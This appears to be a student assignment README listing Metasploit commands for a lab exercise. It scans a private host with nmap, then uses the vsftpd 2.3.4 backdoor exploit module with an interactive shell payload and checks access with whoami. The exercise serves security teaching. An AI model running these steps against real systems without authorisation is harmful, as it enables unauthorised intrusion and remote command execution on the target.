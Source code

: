 # IS-IA-2

The Security Tool Used for the IS IA-2 IS MetaSploit

The report link : https://drive.google.com/file/d/1yoFcqF5vXk6kmaO578o74xrGgX3VCidM/view?usp=drive_link

the youtube video: https://youtu.be/ZXEmVbsZb6Y

commands

install Metasploit
sudo apt install metasploit-framework

Scan the tagret network using Nmap to find open ports 
nmap 192.168.0.119

Run metasploit
sudo msfconsole

search for the version to find a particular exploit
search vsftpd

run the exploit
use exploit/unix/ftp/vsftpd_234_backdoor
show options

adding IP to the remote hosts
set RHOSTS  192.168.0.119
show options

Set the payload
set payload cmd/unix/interact

Start the exploit
exploit

Check if we gained the access
whoami



